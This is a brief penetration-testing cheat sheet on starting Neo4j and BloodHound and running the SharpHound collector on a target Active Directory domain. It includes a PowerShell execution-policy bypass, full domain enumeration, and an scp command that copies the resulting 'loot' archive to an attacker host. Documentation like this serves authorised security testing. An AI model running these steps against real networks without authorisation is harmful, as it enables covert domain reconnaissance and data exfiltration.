 ```yaml
---
title: BLOODHOUND
summary: A tool to reveal the hidden and often unintended relationships within an Active Directory or Azure environment.
description: A tool to reveal the hidden and often unintended relationships within an Active Directory or Azure environment.
---
```


**[https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)**

## Start (Attacker Machine)


 > 
 > **<font color=red>sudo neo4j console</font>**</br>
 > Start Neo4j (then connect on http://localhost:7474/).
 > 
 > **<font color=red>bloodhound</font>**</br>
 > Start Bloodhound.

## Loot (Target Machine)

**https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors**

 > 
 > **<font color=red>powershell.exe -ExecutionPolicy bypass</font>**</br>
 > Bypass PowerShell script execution restrictions.
 > 
 > **<font color=red>. .\SharpHound.ps1</font>**</br>
 > Initialize SharpHound.
 > 
 > **<font color=red>Invoke-Bloodhound -CollectionMethod All -Domain</font> \[TARGET_DOMAIN\] <font color=red>-ZipFileName</font> BloudhoundLoot.zip**</br>
 > Run SharpHound.

 > 
 > **<font color=red>scp</font> BloudhoundLoot.zip myUser<font color=red>@</font>\[ATTACKER_MACHINE\]<font color=red>:</font>/home/myUser/**</br>
 > Bring back the loot to the attacker's machine, and open it in Bloodhound Web UI.
